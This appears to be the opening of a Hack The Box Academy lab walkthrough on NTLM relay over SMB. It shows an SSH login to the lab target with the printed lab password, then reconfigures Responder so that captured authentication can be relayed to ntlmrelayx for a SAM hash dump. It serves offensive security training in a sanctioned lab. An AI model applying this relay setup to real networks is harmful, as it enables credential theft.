 # NTLM Relay Attacks

## NTLM Relay over SMB Attacks

### Question 1

#### "Relay NTLM authentication over SMB to perform a SAM dump on the relay targets. Submit the NT hash of the local account 'localws01'."

After spawning the target machine, students will connect via SSH with the provided credentials `htb-student:HTB_@cademy_stdnt!`. Students will have to note that they will need to either establish two SSH connections to the spawned target machine, use `tmux`, or connect to the target via `RDP`. This is due to the fact that they will utilize `Responder` and `ntlmrelayx`, and since those tools take over the stdin while they are running.

Code: shell

```shell
ssh htb-student@STMIP
```

```shell-session
┌─[eu-academy-1]─[10.10.14.196]─[htb-ac-8414@htb-7admwdxcua]─[~]
└──╼ [★]$ ssh htb-student@10.129.100.121
The authenticity of host '10.129.100.121 (10.129.100.121)' can't be established.
ECDSA key fingerprint is SHA256:3I77Le3AqCEUd+1LBAraYTRTF74wwJZJiYcnwfF5yAs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.100.121' (ECDSA) to the list of known hosts.
htb-student@10.129.100.121's password: HTB_@cademy_stdnt!
<SNIP>
  
Last login: Wed Aug 30 16:24:31 2023 from 10.10.14.33 
htb-student@ubuntu:~$
```

Subsequently, students need to change their working directory to `tools/Responder`. They will have to turn off the SMB Server, usually started by `Responder` by altering the configuration in the `Responder.conf` file located in the directory. This is done to allow the relayed authentication to go to `ntlmrelayx`:

Code: shell

```shell
cd tools/Responder
sed -i "s/SMB = On/SMB = Off/" Responder.conf
cat Responder.conf | grep -i smb
```

```shell-session
htb-student@ubuntu:~$ cd tools/Responder
htb-student@ubuntu:~/tools/Responder$ sed -i "s/SMB = On/SMB = Off/" Responder.conf

htb-student@ubuntu:~/tools/Responder$ cat Responder.conf | grep -i smb
SMB = Off
```
